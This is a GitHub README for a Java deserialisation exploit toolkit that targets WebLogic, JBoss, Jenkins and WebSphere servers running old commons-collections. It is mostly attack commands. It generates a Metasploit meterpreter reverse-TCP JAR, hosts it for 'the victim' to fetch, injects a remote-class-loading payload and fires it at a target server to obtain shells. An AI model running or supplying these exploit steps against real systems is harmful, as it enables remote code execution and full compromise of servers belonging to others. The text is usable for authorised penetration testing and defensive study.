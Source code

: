 Java Untrusted Deserialization Exploits Tools
===

## Originally from github.com/getcode2git/exserial
---

Not much change in code here as it works a charm. However original github is all in Chinese, so for anyone fluent - please visit the original creator :)
Weblogic Versions: 10.3.6, 12.1.2, 12.1.3, 12.2.1
As for the others its probably easily discoverable - just anything running the older versions of commons-collections...

Structure
---

    .
    |____README.md
    |____exserial.jar     CommonsCollections <= 3.2.1 Exploit Gadget
    |____scripts
    | |____jboss.py       JBoss JMXInvokerServlet
    | |____jenkin.py      Jenkins CLI
    | |____weblogic.py    WebLogic
    | |____websphere.py   WebSphere

---

`exserial.jar` Deserialisation Payload Generator：`CommandExec` && `ClassInject`

    $ java -jar exserial.jar
    Java Deserialise Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar [module type]
        Available module types:
            CommandExec
            ClassInject

### 1. CommandExec

Ability to call command execution：

    $ java -jar exserial.jar CommandExec
    Java Deserialise Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar CommandExec [platform] [command to execute]
        Available platform types:
            Win
            Linux
            OSX
            

### 2. ClassInject

The `main` method used to cause the target server to dynamically load our specified JAR package and execute the specified class name.

For all you lovely testers `msfvenom` as part of the metasploit package [Metasploit](https://github.com/rapid7/metasploit-framework) with the `java/meterpreter/reverse_tcp` JAR payload：

    $ msfvenom --payload="java/meterpreter/reverse_tcp" LHOST=192.168.130.1 LPORT=4444 -t jar > java_meterpreter_reverse_tcp.jar
    
Inject `java_meterpreter_reverse_tcp.jar` into our main class within `exserial.jar` with metasploit.Payload：

    $ java -jar exserial.jar ClassInject "http://myserver.com/java_meterpreter_reverse_tcp.jar" "metasploit.Payload" > demo3.ser

### 3. Useage

Set that **MSF handler** running ->
` use exploit/multi/handler `
` set PAYLOAD java/meterpreter/reverse_tcp `
` set LHOST x.x.x.x `
` set LPORT 1234 `
` exploit -j `

Create a malicious Java Meterpreter ->
`msfvenom -p java/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -f jar > my_reverse_meterpreter.jar`

Host that bad boy on your webserver, make sure that the victim will be able to access this ->
` mv ./my_reverse_meterpreter.jar /var/www/html/`
` service apache2 start` <- Or whatever HTTP Server you prefer :)

Generate your malicious servlet ->
` java -jar exserial.jar ClassInject "http://yourwebserver:port/my_reverse_meterpreter.jar" "metasploit.Payload" > exploit.ser`

Fire away and pray for shells ->
` python scripts/weblogic.py http://somepoorsod:7001 exploit.ser`

